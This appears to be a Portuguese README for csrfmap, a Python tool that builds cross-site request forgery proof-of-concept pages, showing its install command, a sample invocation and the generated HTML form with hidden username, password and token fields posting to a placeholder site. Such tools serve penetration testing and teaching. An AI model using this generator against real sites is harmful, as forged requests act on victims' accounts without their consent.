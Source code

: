 # Instalação

csrfmap requer **python3** e para baixá-lo só usar:

```sh
pip3 install csrfmap
```

# Executando csrfmap

```console
csrfmap -a "http://exemplo.com" -m post -p form1 -n username password token -v victor password 132423542

 _____ _____ _____ _____ _____ _____ _____ 
|     |   __| __  |   __|     |  _  |  _  |
|   --|__   |    -|   __| | | |     |   __|
|_____|_____|__|__|__|  |_|_|_|__|__|__|   
                                                       
                        v0.0.1 - @joaoviictorti   

csrf.html:
<!DOCTYPE html>
<html lang="pt-br">
<body>
	<form action="http://exemplo.com" method="post">
	<input name="username" value="victor" type="hidden"/>
	<input name="password" value="password" type="hidden"/>
	<input name="token" value="132423542" type="hidden"/>
	<input type="submit">Enviar</input>
	</form>
</body>
</html>

```

<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
